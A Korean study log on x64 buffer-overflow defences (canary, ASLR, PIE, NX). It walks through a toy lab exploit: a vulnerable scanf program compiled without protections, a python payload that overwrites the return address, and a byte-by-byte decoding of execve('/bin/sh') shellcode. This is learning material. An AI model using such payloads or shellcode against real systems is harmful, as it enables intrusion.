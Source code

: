 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.


##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
3. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
4. **PIE**(Position Independent Execution)
5. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}


해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.

---

머신코드?  
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05  


***\x48\x31\xc0***  
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?  
\x31 ==> opcode  
\xc0 ==> ModR/M 바이트. 11000000 (rax 두개 쓸거다)    
       =**xor rax, rax**
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***  
\x48 ==> REX prefix  
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)  
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'  
       =**movabs rbx, 0x0068732f6e69622f**  
       
***\x53***  
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )  
       = **push rbx**
       
***\x48\x89\xe7***  
\x48  
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."  
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111  
       = **mov rdi, rsp** (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)  
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI  
000	001	010	011	100	101	110	111  

      
***\x48\x31\xf6***  
\x48 익숙하죠?  
\x31 ==> opcode xor r/m64, r64  
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110  
       = **xor rsi, rsi** (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)  

***\x48\x31\xd2***  
\x48  
\x31  
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010  
      = **xor rdx, rdx** (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)  
      
***\xb0\x3b***  
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)  
\x3b ==> 59(system call number 59.== execve)  
      = **mov al, 0x3b**
시스템콜 넘버는  
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.  

***\x0f\x05***  
      = **syscall (opcode)**  

모두 합치면?  
xor rax, rax  
movabs rbx,  0x0068732f6e69622f  
push rbx  
mov rdi, rsp  
xor rsi, rsi  
xor rdx, rdx  
mov al, 0x3b  
syscall   




---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


